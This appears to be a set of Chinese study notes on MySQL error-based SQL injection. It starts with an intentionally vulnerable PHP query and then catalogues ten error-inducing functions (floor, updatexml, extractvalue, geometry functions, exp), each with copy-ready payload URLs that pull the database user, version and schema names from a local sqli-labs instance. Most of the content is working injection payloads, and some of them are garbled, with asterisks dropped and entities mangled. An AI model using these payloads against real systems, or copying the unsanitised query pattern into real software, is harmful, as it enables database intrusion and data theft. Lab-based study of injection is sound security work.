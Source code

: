 # 代码分析

```
<?php
$con = mysqli_connect("localhost", "root", "root", "test");
if (mysqli_connect_errno()){
    echo "连接失败" . mysqli_connect_errno();
}
$username = $_GET['username'];
if ($result = mysqli_query($con, "select * from users where 'username' ='". $username . "'"){
    echo "yes";
}else{
    echo mysqli_error($con);
}
?>
```
 - 输入 ==username=1'== 时，SQL语句为`select * from users where 'username'='1''`，执行时会因为多了一个单引号报错，可以利用这种报错进行注入
- 利用特殊的语句，让原有的语句出现致命性错误，返回的错误信息中含有你想要的数据

# updatexml

> updatexml(目标xml内容, xml文档路径, 更新的内容)

- 实际上就是去`更新XML文档`，但是我们在`XML文档的路径的位置里面写入子查询`，通过`输入特殊字符`，`文档路径不符合规矩进行报错`，报错的时候就已经在执行那个子查询了，
- 主要目的是让xml的文档路径报错，所以xml的内容和更新的内容可以随便写，如多谢字符串要加单引号
- 想要让路径报错，必须得加上特殊符号或者16进制格式的特殊符号，然后拼接到一起（concat函数就是拼接多个字符串在一起）
 - 完整语句：<br>
```
'' or updatexml(1,concat(0x73, (select database())),2)# (这里or不行试一试and)`<br>
`ERROR 1105 (HY000): XPATH syntax error: '~test'这样就报错出了库名
```

### extractvalue

- 查询内容

> extractvalue(目标xml文档，xml路径)

- 和updatexml一样，就是参数不一样，用法完全一样



MySQL的报错SQL注入方法
MySQL的报错SQL注入方法
多数人以为只有三种
实际上还有很多个函数都会导致MySQL报错并且显示出数据
利用这种类型来说明利用
多数人以为只有三种
1. floor()
2. updatexml()
3. extractvalue()
实际上还有很多个函数都会导致MySQL报错并且显示出数据
1. GeometryCollection()
2. polygon()
3 GTID_SUBSET()
4. multipoint()
5. multilinestring()
6. multipolygon()
7. LINESTRING()
8. exp()
这些方法并不是在所有版本都通用，也有比较老的版本没有这些函数
通常注入的SQL语句大多是"select * from phpsec where id=?" 这种类型
利用这种类型来说明利用
    第一种：floor()
    注入语句：
    id=1 and (select 1 from (select count(),concat(user(),floor(rand(0)2))x from information_schema.tables group by x)a)
    例如：
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; and (select 1 from (select count(),concat(user(),floor(rand(0)2))x from information_schema.tables group by x)a) --+
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; and (select 1 from (select count(),concat((select (select (select concat(0x7e,count(schema_name),0x7e) from information_schema.schemata)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a) --+
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; and (select 1 from (select count(),concat((select (select (select concat(0x7e,schema_name,0x7e) from information_schema.schemata limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a) --+
    通过floor报错【没有任何字符长度限制】
    固定句式：
        and (select 1 from (select count(),concat((select (select (payload)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)
    查询数据库的个数：
        select concat(0x7e,count(schema_name),0x7e) from information_schema.schemata
        payload组合语句：
        and (select 1 from (select count(),concat((select (select (select concat(0x7e,count(schema_name),0x7e) from information_schema.schemata)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)
    获取数据库名字：
        select concat(0x7e,schema_name,0x7e) from information_schema.schemata limit 0,1
        payload组合语句：
        and (select 1 from (select count(),concat((select (select (select concat(0x7e,schema_name,0x7e) from information_schema.schemata limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

第二种：extractvalue()
    注入语句：
    id=1 and (extractvalue(1,concat(0x5c,(select user()))))
    例如：
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; and (extractvalue(1,concat(0x5c,(select user())))) --+
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; and extractvalue(1,(concat(0x7e,(select @@version),0x7e))) --+
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; and extractvalue(1,(concat(0x7e,(select version()),0x7e))) --+
    通过ExtractValue报错【最多32字符】
    固定句式：
        and extractvalue(1,(payload))
    或者记忆成：
        and extractvalue(1,(concat(0x7e,(payload),0x7e)))
    查询数据库版本号：
        and extractvalue(1,(concat(0x7e,(select @@version),0x7e)))
    或者写成：
        and extractvalue(1,(concat(0x7e,(select version()),0x7e)))


第三种：updatexml()
    注入语句：
    id=1 AND (updatexml(1,concat(0x5e24,(select user()),0x5e24),1))
    例如：
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; AND (updatexml(1,concat(0x5e24,(select user()),0x5e24),1)) --+
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; +and updatexml(1,(concat(0x7e,(select @@version),0x7e)),1) --+
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; +and updatexml(1,(concat(0x7e,(select version()),0x7e)),1) --+
    通过UpdateXML报错【最多32字符】
    固定句式：
        +and updatexml(1,(payload),1)
    或者记忆成：
        +and updatexml(1,(concat(0x7e,(payload),0x7e)),1)
    查询数据库版本号：
        +and updatexml(1,(concat(0x7e,(select @@version),0x7e)),1)
    或者写成：
        +and updatexml(1,(concat(0x7e,(select version()),0x7e)),1)
        +加号可以换成空格


第四种：GeometryCollection()【高版本数据库并没有执行成功】
    注入语句：
    id=1 AND GeometryCollection((select from (select from (select user())a)b))
    例如：
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; AND GeometryCollection((select from (select from (select user())a)b)) --+

第五种：polygon()【高版本数据库并没有执行成功】
    注入语句：
    id=1 AND polygon((select from (select from (select user())a)b))
    例如：
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; AND polygon((select from (select from (select user())a)b)) --+


第六种：multipoint()【高版本数据库并没有执行成功】
    注入语句：
    id=1 AND multipoint((select from (select from (select user())a)b))
    例如：
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; AND multipoint((select from (select from (select user())a)b)) --+


第七种：multilinestring()【高版本数据库并没有执行成功】
    注入语句：
    id=1 AND multilinestring((select from (select from (select user())a)b))
    例如：
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; AND multilinestring((select from (select from (select user())a)b)) --+


第八种：multipolygon()【高版本数据库并没有执行成功】
    注入语句：
    id=1 AND multipolygon((select from (select from (select user())a)b))
    例如：
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; AND multipolygon((select from (select from (select user())a)b)) --+


第九种：linestring()【高版本数据库并没有执行成功】
    注入语句：
    id=1 AND LINESTRING((select from (select from (select user())a)b))
    例如：
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; AND LINESTRING((select from (select from (select user())a)b)) --+


第十种：exp()【高版本数据库并没有执行成功】
    注入语句：
    id=1 and EXP(~(SELECT from (SELECT user())a))
    例如：
    http://127.0.0.1/sqli-labs-master/Less-5/index.php?id=1&#39; and EXP(~(SELECT from (SELECT user())a)) --+